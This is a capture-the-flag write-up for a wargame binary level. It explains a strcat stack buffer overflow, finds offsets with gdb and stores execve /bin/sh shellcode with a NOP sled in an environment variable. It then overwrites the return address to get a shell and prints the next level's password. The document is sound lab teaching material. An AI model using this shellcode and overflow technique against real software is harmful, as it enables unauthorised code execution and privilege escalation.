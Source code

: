 ## BONUS 1
---
### Starting from now, you will find explanations in the disassembled file for each line in few upcoming levels. This will provide a better understanding of the payload and the solution.
---

We're becoming familiar the automatisms to solve these levels. As usual, we start by looking the code. The code is too long to be displayed here, so I will just show the part that is interesting for us. If you want to see that whole code, you can find it [here](./src/bonus2.c).

Now that we understand what this code does. We can start our research to exploit this code.

First we need to find the vulnerabity inside the code. The first thing that I noticed is the `strncpy` and `strcat` calls. Let's take a look to find a potential vulnerability.

```c
int
main (int argc, char **argv) {
	char	buffer[72];
[...]
	strncpy(buffer, argv[1], 40);
	strncpy(&buffer[40], argv[2], 32);
[...]
	greetuser(buffer);
}

void
greetuser (char *user) {
	char	buffer[64];
[...]
	strcat(buffer, user);
[...]
}
```

That's interesting! We have two buffers, and it appears that the `greetuser` function copies a buffer larger than its size. This indicates a potential buffer overflow vulnerability. By examining the code, I can see that the buffer inside the `greetuser` function can be filled up to 85 bytes (72 + 13). Therefore, I can overflow the return value of the `greetuser` function.

Now that we have identified the vulnerability and the target for the buffer overflow, the next step is to consider how to obtain the flag. Since the code does not contain any `system` calls, we will need to use a ShellCode. In this case, we can utilize the same ShellCode that we used in previous levels.

The only question im asking to myself is where to put this ShellCode ?

We have two options:
1. Put the ShellCode inside the first argument.
2. Put the ShellCode inside environment variables.

Let's use the second option because we saw in the bonus0 that running code from stack isn't easy !

First I need to find the distance between the buffer in `greetuser` and it's return address. To do that, I will use the `gdb`.

```bash
(gdb) x/a $ebp+4
0xbffff62c:	0x8048630 <main+263>
(gdb) x/32s $esp
[...]
0xbffff5e0:	 "Hello "
[...]
```

So the distance is 0x4c (76 in decimal). You need to remove 6 because of the "Hello " string.
In my case, I will remove 13 because I will set LANG to `fi` and the buffer will be filled with "Hyvää päivää ".
So the distance is 76 - 13 = 63.

Before to fo further I need to be sure of these numbers.

```shell
(gdb) r `python -c 'print "A"*40'` `python -c 'print "A"*19 + "1234"'`
Starting program: /home/user/bonus2/bonus2 `python -c 'print "A"*40'` `python -c 'print "A"*19 + "1234"'`
(gdb) x/32a $ebp
0xbffff638:	0x41414141	0x33323141	0x41410034	0x41414141
```

Oh, it's always good to check, as we can see the padding isn't good I have to remove 1 byte from the second argument !

```shell
(gdb) r `python -c 'print "A"*40'` `python -c 'print "A"*18 + "1234"'`
Starting program: /home/user/bonus2/bonus2 `python -c 'print "A"*40'` `python -c 'print "A"*18 + "1234"'`
(gdb) x/32a $ebp
0xbffff638:	0x41414141	0x34333231	0x41414100	0x41414141
```

Perfect ! Now we can continue.
I need to get the address where is store the environment variables.

```shell
$ export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

(gdb) x/s *((char **)environ)
0xbffff8b2:	 "SHELLCODE=\220\220\220\220[...]
```

I will add 0x20 to this address to be sure to be inside the NOP operators and skip the variable name.
    
```shell
(gdb) x/s *((char **)environ)+32
0xbffff8d2:	 "\220\220\220\220\220\220[...]
```

Now I can start to build my payload.

```shell
$ python -c 'print "\x90" * 40' > /tmp/payload_part1
$ python -c 'print "\x90" * 18 + "\xd2\xf8\xff\xbf"' > /tmp/payload_part2
$ ./bonus `cat /tmp/payload_part1` `cat /tmp/payload_part2`
Hyvää päivää ��������������������������������������������������������������
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
